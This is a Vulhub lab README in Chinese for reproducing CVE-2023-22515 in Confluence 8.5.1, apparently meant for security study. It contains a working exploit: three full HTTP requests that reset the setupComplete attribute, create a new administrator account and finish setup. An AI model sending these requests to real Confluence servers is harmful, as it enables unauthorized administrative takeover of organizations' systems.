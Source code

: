 # Confluence 属性覆盖导致权限绕过漏洞 (CVE-2023-22515)

Atlassian Confluence是企业广泛使用的wiki系统。

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

参考链接：

- <https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html>
- <https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis>

## 漏洞环境

执行如下命令启动一个Confluence Server 8.5.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](1.png)

## 漏洞复现

首先，最主要的请求就是覆盖目标Confluence服务器中的`bootstrapStatusProvider.applicationConfig.setupComplete`属性：

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

然后，你就可以使用如下请求创建一个新的管理员账户`vulhub`：

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

发送如下请求完成安装步骤：

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check


```

最后，直接使用新的`vulhub`账户（密码同样是`vulhub`）来登录Confluence，可见新的管理员已成功增加：

![](2.png)
